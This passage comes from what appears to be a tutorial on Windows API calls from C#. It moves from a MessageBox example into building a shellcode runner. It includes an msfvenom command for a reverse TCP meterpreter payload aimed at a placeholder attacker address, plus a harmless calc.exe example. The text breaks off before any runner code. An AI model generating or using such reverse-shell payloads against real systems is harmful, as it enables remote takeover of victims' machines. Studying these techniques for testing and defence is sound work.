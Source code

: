 Once it's declared, we can this in our program :

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text, String caption, uint type);

    static void Main()
    {
        MessageBox(IntPtr.Zero, "Hello, world!", "My Message Box", 0);
    }
}
```

This program we'll print  a box with `Hello, world!` and `My Message Box` as a title.

<Image src="/MessageBoxCsharp.png" />


### Pratical Example II : Shellcode Runner in C#

#### What is Shellcode?

Shellcode is a small piece of code used as the payload in the exploitation of software vulnerabilities. It typically opens a shell or executes arbitrary commands on the target system. Shellcode is often written in assembly language and is designed to be loaded directly into memory and executed.

#### Generating Shellcode with Metasploit

Metasploit is a popular penetration testing framework that can generate shellcode for various payloads. Here's how you can generate shellcode using Metasploit:

1. Open Metasploit Framework:
    ```sh
    msfconsole
    ```

2. Use the `msfvenom` tool to generate shellcode:
    ```sh
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f csharp
    ```

    This command generates a C# formatted shellcode for a reverse TCP meterpreter payload. Replace `your_ip` and `your_port` with your IP address and port number.

3. For this example we'll generate a calculator launcher shellcode :
    ```sh
    msfvenom -p windows/x64/exec CMD="calc.exe" -f csharp  
    ```

Save the code generated for the next move.

#### Using Shellcode in a C# Application
